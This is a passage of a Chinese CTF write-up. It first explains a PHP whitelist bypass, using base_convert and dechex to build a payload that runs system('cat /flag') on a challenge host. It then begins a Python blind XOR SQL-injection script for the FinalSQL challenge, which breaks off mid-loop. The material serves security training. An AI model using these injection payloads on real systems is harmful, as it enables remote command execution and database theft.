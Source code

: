 
但是这里的_GET和a，b都不是白名单里面的，这里需要替换

替换之后

```
?c=($_GET[pi])($_GET[abs])&pi=system&abs=cat /flag
```

但是这里的_GET是无法进行直接替换，而且[]也被黑名单过滤了

但是这里的_GET是无法进行直接替换，而且[]也被黑名单过滤了

这里就需要去了解一下他给的白名单里面的函数了

这里说一下需要用到的几个函数

这里先将_GET来进行转换的函数

hex2bin() 函数
hex2bin() 函数把十六进制值的字符串转换为 ASCII 字符。

这里的_GET是ASCII 字符，用在线工具将_GET转换为十六进制

![img](https://img-blog.csdnimg.cn/img_convert/4dbeb7f9a1c1fae07bc90f407835af04.png)

hex2bin(5f 47 45 54) 就是 _GET,但是hex2bin()函数也不是白名单里面的，而且这里的5f 47 45 54也不能直接填入，这里会被

 preg_match_all('/[a-zA-Z_\x7f-\xff][a-zA-Z_0-9\x7f-\xff]*/', $content, $used_funcs);  
1
来进行白名单的检测。

这里的hex2bin()函数可以通过base_convert()函数来进行转换

base_convert()函数能够在任意进制之间转换数字

这里的hex2bin可以看做是36进制，用base_convert来转换将在10进制的数字转换为16进制就可以出现hex2bin

hex2bin=base_convert(37907361743,10,36)

然后里面的5f 47 45 54要用dechex()函数将10进制数转换为16进制的数

dechex(1598506324)，1598506324转换为16进制就是5f 47 45 54

最终的payload：

```
http://f2267aed-d841-4197-8848-15fde2938ec5.node4.buuoj.cn:81/?c=$pi=base_convert(37907361743,10,36)(dechex(1598506324));($$pi){pi}(($$pi){abs})&pi=system&abs=cat%20/flag
```

 

## [极客大挑战 2019]FinalSQL

###### sql脚本爆破 异或

[[极客大挑战 2019\]FinalSQL-CSDN博客](https://blog.csdn.net/satasun/article/details/109703332)

```python
import requests
import time

url = "http://c7f4deb2-e4eb-4cec-a2b4-6014fb5b6c2d.node3.buuoj.cn/search.php?"
temp = {"id" : ""}
column = ""
for i in range(1,1000):
    time.sleep(0.06)
    low = 32
    high =128
    mid = (low+high)//2
    while(low<high):
        #库名
        temp["id"] = "1^(ascii(substr((select(group_concat(schema_name))from(information_schema.schemata)),%d,1))>%d)^1" %(i,mid)
```